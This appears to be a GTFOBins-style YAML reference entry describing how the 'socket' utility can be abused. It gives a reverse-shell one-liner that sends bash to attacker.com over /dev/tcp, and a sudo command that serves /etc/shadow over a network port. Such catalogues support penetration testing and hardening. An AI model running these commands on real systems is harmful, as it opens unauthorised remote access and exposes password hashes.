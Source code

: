 ```yaml
---
description: Note that any shells are non-interactive. A reverse shell or similar is required to gain an interactive system shell.
functions:
  reverse-shell:
    - code: |
        LPORT=12345
        RPORT=11111
        RHOST=attacker.com
        socket -wslqvp "bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'" $LPORT
  sudo:
    - code: |
        LPORT=12345
        sudo socket -wslqvp "cat /etc/shadow " $LPORT
---
```

